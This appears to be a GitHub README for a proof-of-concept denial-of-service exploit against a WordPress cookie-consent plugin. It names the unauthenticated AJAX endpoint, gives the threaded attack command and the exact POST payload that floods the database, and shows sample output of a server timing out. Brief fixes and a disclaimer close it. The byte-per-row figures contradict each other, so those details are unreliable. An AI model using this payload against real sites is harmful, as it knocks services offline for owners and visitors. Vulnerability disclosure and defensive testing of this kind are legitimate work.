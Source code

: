 # CVE-2025-51529: WordPress Cookies and Content Security Policy Plugin DoS Vulnerability

Incorrect Access Control in the AJAX endpoint functionality in jonkastonka Cookies and Content Security Policy plugin through version 2.29 allows remote attackers to cause a denial of service (database server resource exhaustion) via unlimited database write operations to the `wp_ajax_nopriv_cacsp_insert_consent_data` endpoint.

The vulnerability exists in the `cacsp_insert_consent_data()` function, which is exposed through WordPress's AJAX endpoint (`wp-admin/admin-ajax.php`) without authentication requirements. The plugin uses `wp_ajax_nopriv_` action, making it accessible to unauthenticated users.

**Attack Vector:** Remote attackers can send unlimited concurrent POST requests to overwhelm the database server with write operations, causing CPU and disk I/O exhaustion.

## Vulnerability details

- **CVE ID**: CVE-2025-51529  
- **Status**: RESERVED
- **Type**: Incorrect Access Control / Denial of Service
- **Product**: Cookies and Content Security Policy plugin through version 2.29
- **Vendor**: Johan Jonk Stenstroem (jonkastonka)
- **Affected Function**: cacsp_insert_consent_data()
- **Attack Vector**: Remote
- **Discoverer**: Piotr Bednarski

## Requirements

- Python 3.x
- `requests`
- `matplotlib`
- `threading`

## Usage

Basic usage of the PoC script is as follows:

```bash
python payload.py --target <target_url> --threads <number_of_threads>
```

By default, the number of threads is set to 100. You can specify a different number of threads by providing it as the second argument.

### Example output

![DoS Attack Chart](/dos_attack_chart.png)

```bash
Target WordPress URL (https://example.com): https://vulnerable-site.com
Number of threads (default 100): 

Launching DoS attack with 100 threads...
Press Ctrl+C to stop the attack

[19:41:20] ✓ Status: 200 | Response time: 538.3ms | DB: 0.00MB (1 rows, 351b/row)
[19:41:20] ✓ Status: 200 | Response time: 554.51ms | DB: 0.00MB (2 rows, 351b/row)
[19:41:20] ✓ Status: 200 | Response time: 522.29ms | DB: 0.00MB (3 rows, 351b/row)
[19:41:20] ✓ Status: 200 | Response time: 498.72ms | DB: 0.00MB (4 rows, 351b/row)
[19:41:21] ✓ Status: 200 | Response time: 946.94ms | DB: 0.00MB (5 rows, 351b/row)
[19:41:21] ✓ Status: 200 | Response time: 858.41ms | DB: 0.00MB (6 rows, 351b/row)
[19:41:21] ✓ Status: 200 | Response time: 922.29ms | DB: 0.00MB (7 rows, 351b/row)
[19:41:21] ✓ Status: 200 | Response time: 991.41ms | DB: 0.00MB (8 rows, 351b/row)
...
[19:41:26] ⚠ TIMEOUT - server not responding
[19:41:26] ⚠ TIMEOUT - server not responding
[19:41:26] ⚠ TIMEOUT - server not responding
[19:41:26] ⚠ TIMEOUT - server not responding
[19:41:26] ⚠ TIMEOUT - server not responding
```

## How it works

The exploit sends POST requests to `/wp-admin/admin-ajax.php` with:

```python
data = {
    'action': 'cacsp_insert_consent_data',
    'accepted_cookies': 'necessary,experience,analytics,marketing',
    'expires': "9" * 255  # Maximum TINYTEXT length
}
```

Each successful request inserts a new database row containing:

- Timestamp (19 bytes)
- IP Address (~13 bytes)
- Cookie preferences (variable)
- Expiration data (up to 255 bytes)
- Site ID (1 byte)
- MySQL overhead (~22 bytes)

**Result:** ~89 bytes per request × unlimited requests = rapid database growth

## Recommended Fixes

- Add nonce verification for AJAX calls
- Implement rate limiting per IP
- Validate user inputs properly

## Disclaimer

This PoC is for educational purposes only. The author is not responsible for any misuse or damage caused by the use of this code. Always obtain permission before testing against any system.